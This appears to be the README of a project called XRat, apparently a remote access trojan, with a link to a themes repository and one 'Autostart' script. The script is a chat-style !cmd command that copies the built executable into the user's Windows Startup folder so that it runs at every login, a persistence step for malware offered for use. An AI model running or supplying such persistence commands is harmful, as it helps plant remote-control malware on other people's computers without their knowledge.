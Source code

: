# XRat

# LINKS
> [THEMES](<https://github.com/UndefinedClear/XRat-themes/tree/main>)
# SCRIPTS
> Autostart
> !cmd chcp_1251_&&_copy_BUILDNAME_"C:\Users\USERNAME\AppData\Roaming\Microsoft\Windows\Start_Menu\Programs\Startup"_&&_echo_success_&&_cd_"C:\Users\USERNAME\AppData\Roaming\Microsoft\Windows\Start_Menu\Programs\Startup"_&&_echo_success_&&_dir
